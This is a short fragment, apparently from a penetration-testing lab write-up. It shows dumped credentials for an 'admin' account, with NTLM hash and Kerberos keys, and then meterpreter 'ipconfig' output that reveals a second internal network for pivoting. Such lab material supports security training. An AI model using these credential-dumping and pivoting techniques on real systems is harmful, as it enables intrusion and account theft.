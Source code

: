 	
	RID  : 000003f3 (1011)
	User : admin
	  Hash NTLM: 0f2011271b98907e6d288066567d3319
	
	Supplemental Credentials:
	* Primary:NTLM-Strong-NTOWF *
	    Random Value : e07aba42f9788f66fb938f66349cb81b
	
	* Primary:Kerberos-Newer-Keys *
	    Default Salt : ATTACKDEFENSEadmin
	    Default Iterations : 4096
	    Credentials
	      aes256_hmac       (4096) : 291868e6ee1a9810353c320bbade3146e554fa7336efedc0cdeebe6a4393755a
	      aes128_hmac       (4096) : 9bad45cbc794bcbc5ae463726550f1f1
	      des_cbc_md5       (4096) : dce6986e9d6240e0
	
	* Packages *
	    NTLM-Strong-NTOWF
	
	* Primary:Kerberos *
	    Default Salt : ATTACKDEFENSEadmin
	    Credentials
	      des_cbc_md5       : dce6986e9d6240e0
	
	



# **Internal Network:**

	meterpreter > ipconfig 
	
	Interface  1
	============
	Name         : Software Loopback Interface 1
	Hardware MAC : 00:00:00:00:00:00
	MTU          : 4294967295
	IPv4 Address : 127.0.0.1
	IPv4 Netmask : 255.0.0.0
	IPv6 Address : ::1
	IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
	
	
	Interface  2
	============
	Name         : Amazon Elastic Network Adapter
	Hardware MAC : 06:23:e7:75:73:a7
	MTU          : 1500
	IPv4 Address : 192.168.100.55
	IPv4 Netmask : 255.255.255.0
	IPv6 Address : fe80::f16c:bca6:f654:a0d4
	IPv6 Netmask : ffff:ffff:ffff:ffff::
	
	
	Interface 27
	============
	Name         : Amazon Elastic Network Adapter #2
	Hardware MAC : 06:5e:fa:c5:1b:3b
	MTU          : 1500
	IPv4 Address : 192.168.0.50
	IPv4 Netmask : 255.255.255.0
	IPv6 Address : fe80::5887:5792:523:b5df
	IPv6 Netmask : ffff:ffff:ffff:ffff::
	